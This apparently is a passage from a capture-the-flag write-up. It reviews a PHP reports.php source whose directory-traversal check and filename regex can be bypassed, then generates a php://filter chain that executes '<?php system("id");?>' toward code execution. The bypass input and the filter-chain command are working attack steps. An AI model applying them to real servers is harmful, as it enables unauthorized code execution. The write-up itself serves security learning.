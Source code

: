 <img width="1121" height="681" alt="image" src="https://github.com/user-attachments/assets/1a5a1b66-480a-493d-8457-0ac4c321d0f8" />

But, 

<img width="1260" height="397" alt="image" src="https://github.com/user-attachments/assets/55d164ce-0b8c-4938-8b05-32b22cef7c8f" />

I went and review the source code from **Gitea**:

``reports.php``

```php
<?php
require '../includes/auth.php';
require '../config/db.php';

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

?>
```

### Regex Bypass

The code blocks directory traversal ``(..)`` and only allows access to a few specific PHP files.
Anything else is treated as malicious or invalid and immediately denied.

The source code showed two checks: ``.. = Malicious request blocked 🚫`` and a regex block for ``enrollment|academic|financial|system.php``

I tested ``?report=PAYLOAD+system.php (space URL-encoded as +)``

<img width="1383" height="725" alt="image" src="https://github.com/user-attachments/assets/b2d4bf56-f292-4437-bdb9-15639c606896" />

It bypassed but no **/etc/hosts**, After digging I discovered a useful **[repo](https://github.com/synacktiv/php_filter_chain_generator)** for building **php://filter chains** 

```
python3 php_filter_chain_generator.py --chain '<?php system("id");?>'
[+] The following gadget chain will generate the following code : <?php system("id");?> (base64 value: PD9waHAgc3lzdGVtKCJpZCIpOz8+)
```